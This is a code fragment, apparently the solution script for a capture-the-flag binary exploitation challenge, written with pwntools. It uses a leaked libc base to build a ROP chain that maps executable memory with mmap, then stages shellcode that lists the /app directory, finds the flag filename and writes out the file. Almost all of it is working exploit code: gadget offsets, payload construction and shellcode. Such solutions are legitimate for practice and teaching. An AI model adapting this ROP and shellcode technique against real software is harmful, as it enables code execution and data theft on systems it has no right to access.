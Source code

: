 ```python
    libc_base = read_address - offset_read
    log.info("leaked libc_base: " + hex(libc_base))


    # libc lets us control rdx and rcx, so that gets us the first four args
    # let's take advantage of our new argument control to mmap some executable memory
    # we're not mapping a file so we don't really care much about the last two argument regs


    pop_rdx_r12 = libc_base + 0x000000000011c371
    pop_rcx = libc_base + 0x000000000009f822

    payload = b"A" * 24 # need padding bc our stack pivot gadget has three pops between pop rsp and ret
    payload += p64(pop_rdi) + p64(0x10000)
    payload += p64(pop_rsi_r15) + p64(0x100000) + p64(0)
    payload += p64(pop_rdx_r12) + p64(7) + p64(0) # PROT_READ | PROT_WRITE | PROT_EXEC
    payload += p64(pop_rcx) + p64(0x22) # MAP_PRIVATE | MAP_ANONYMOUS
    payload += p64(libc_base + 0x00000000000c9ccf) # xor r9d, r9d
    payload += p64(libc_base + offset_mmap)

    # we now have rwx memorable at a predictable address
    # lets read some shellcode onto it and then return

    payload += p64(pop_rdi)  + p64(0x400ce0) + p64(exe.symbols['strlen'])
    payload += p64(pop_rdi) + p64(0)
    payload += p64(pop_rsi_r15) + p64(0x0000000000010000) + p64(0)
    payload += p64(exe.symbols['read'])
    payload += p64(0x10000)
    r.send(payload)

    r.recv(0x10000) # clean stdout


    # get files in directory
    # don't really need to bother parsing it
    # can just print the whole thing and regex the filename out
    # lastly, read again so we can write shellcode with the filename

    payload = b""
    payload += asm(shellcraft.open("/app/"))
    payload += asm(shellcraft.amd64.linux.getdents64(3, 0x100000, 0x1000))
    payload += asm(shellcraft.amd64.linux.write(1, 0x100000, 0x1000))
    payload += asm(shellcraft.amd64.linux.read(0, 0x10000+0x1000, 0x1000))
    payload = payload.ljust(0x1000, b"\x90")
    r.send(payload)

    flag_filename = re.search(b"(flag.*txt)", r.recv(0x1000)).group(0)

    log.info("leaked flag filename: " + flag_filename.decode())

    # lastly, just open/mmap/write the flag filename

    payload = b""
    payload += asm(shellcraft.open(f"/app/{flag_filename.decode()}"))
    payload += asm(shellcraft.amd64.linux.mmap(0x20000,0x100, 1, 2, 4, 0))
    payload += asm(shellcraft.amd64.linux.write(1, "rax", 0x100))
    
    r.send(payload)

    # good luck pwning :)

    r.interactive()
```